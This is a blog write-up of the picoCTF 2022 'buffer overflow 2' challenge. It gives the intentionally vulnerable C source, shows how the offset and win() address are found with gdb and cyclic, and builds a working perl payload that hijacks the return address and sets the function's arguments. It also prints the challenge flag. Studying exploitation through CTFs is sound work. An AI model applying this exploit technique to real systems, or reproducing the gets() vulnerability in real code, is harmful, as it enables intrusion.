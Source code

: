 ```yaml
---
layout: post
title: picoCTF 2022 - buffer overflow 2
date: "2023-05-03 20:00:31 +0100"
categories: [CTF-WRITEUPS, picoCTF - Binary exploitation]
tags: [c, pwn, binary exploitation, rev, gdb]
---
```


Hello friend,

In this post, we are going to be smashing the stack again, with the third challenge of **picoCTF 2022** , buffer overflow 2.

Link to the challenge : [buffer overflow 2
](https://play.picoctf.org/practice/challenge/259?page=1&search=buffer%20overflow)

## Description

Control the return address and arguments
This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/143/vuln)?
You can view source [here](https://artifacts.picoctf.net/c/143/vuln.c). And connect with it using nc saturn.picoctf.net <span style="color : red">[PORT]</span>

## Solution

<span style="color : red">vuln.c</span>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

#### Analyzing the program

Okey let's analyze the `vuln.c` program.

First, `main()` gets called, then we get asked for our input, then `vuln()` is called.

inside `vuln()` , a BUFFER is declared with a size of 100 bytes, and `gets()` is used to read from the standard input and stores that into the buffer.

This is the vulnerable part, since the program trusts the user input, we can exceed the buffer size and write into memory.

The idea here is to `JUMP` to the `win()` function.

In order to do so, we need to :

- Determine the exact number of bytes (offset) to overwrite the return address.
- Determine the address of the `win()` function.

#### Smashing the stack

Determining the address of `win` is fairly easy, here is how I've done it:

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ objdump -t ./vuln | grep win
08049296 g     F .text  000000a2              win
```

> Address : 0x08049296

This prints the symbol table of our program. Using grep allows us to only display the line that contains a pattern, in our case `win`.

Now we need to determine how many bytes we need to overwrite the return address in the stack.

Here is a simple illustration explaining the idea

<img src="/../assets/picoCTF_bufferoverflow2.png" />

Now if we control the return address, we can basically control the whole program and redirect it to wherever we want.

To determine how many bytes we need, we can generate a pattern using `cyclic` , feed it to the program and analyze it using `gdb`

let's generate a pattern of 120 bytes

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
```

Now let's open our binary in gdb, feeding it that input.

<img src="/../assets/picoCTF_bufferoverflow2.1.png" />

We are interested in the `EIP` register, since `EIP` points to the instruction that the CPU is going to execute.

As you can notice, EIP points to `daab`, which is a substring in our pattern, now we can easily determine the offset.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ cyclic -l daab
112
```

We got it ! Now we need exactly 112 bytes to hit the `EIP`.

Let's create a flag.txt file in our home directory in order to test the program.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ cat flag.txt
FLAG{yariss}
```

Now let's feed the program 112 chars + the address of `win`. I'm going to use `perl` for that.

> Note : we need to write the address in reverse, respecting the little endian byte order.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ perl -e 'print "A" x 112 . "\x96\x92\x04\x08" ' > payload
```

Now let's run it with gdb, make a breakpoint in the win function, and see if we hit it.

```bash
gdb ./vuln
b win
run < payload
```

We hit it !

Now that we can successfully jump to win, we need to somehow bypass the checks in order to print the flag.

```c
void win(unsigned int arg1, unsigned int arg2)
....
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
```

But how ? how can we set the arguments ?

Basically, when a function is called, here is what happens :

- the arguments of that function are pushed onto the stack
- the return address is pushed onto the stack
- a stack frame for the function is created

Now we need to craft the same stack structure, this way when we jump to our function, its arguments are those we've put into our crafted stack.

<img src="/../assets/picoCTF_bufferoverflow2.2.png" />

> Note : Don't forget to write the addresses / values in reverse order , respecting little endian format.

Putting all of this together, here is our final payload

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ perl -e 'print "A" x 112 . "\x96\x92\x04\x08" . "JUNK". "\x0d\xf0\xfe\xca" ."\x0d\xf0\x0d\xf0" . "\n" ' > payload
```

Let's run it.

```bash
└─$ cat payload | ./vuln
Please enter your string:
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�JUNK
FLAG{yariss}
```

We got it, now let's run it against the program in the server.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ cat payload | nc saturn.picoctf.net
picoCTF{argum3nt5_4_d4yZ_2a8ec317}
```

> Flag : picoCTF{argum3nt5_4_d4yZ_2a8ec317}
